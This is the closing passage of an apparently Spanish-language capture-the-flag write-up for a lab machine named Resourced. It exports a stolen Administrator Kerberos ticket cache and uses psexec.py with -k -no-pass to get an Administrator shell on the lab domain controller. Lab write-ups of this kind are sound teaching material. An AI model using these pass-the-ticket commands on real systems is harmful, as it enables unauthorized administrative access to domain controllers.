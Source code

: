 ```bash
export KRB5CCNAME=./Administrator.ccache
```

Ahora nos podemos conectar con `psexec` con el parámetro `-k`, que hace uso de la variable que acabamos de exportar.

```bash
psexec.py -k -no-pass resourcedc.resourced.local -dc-ip 192.168.182.175
```

Ya somos el usuario `Administrador` y podemos leer la flag.

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250411184732.png">
</p>

Máquina completada 😎

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.







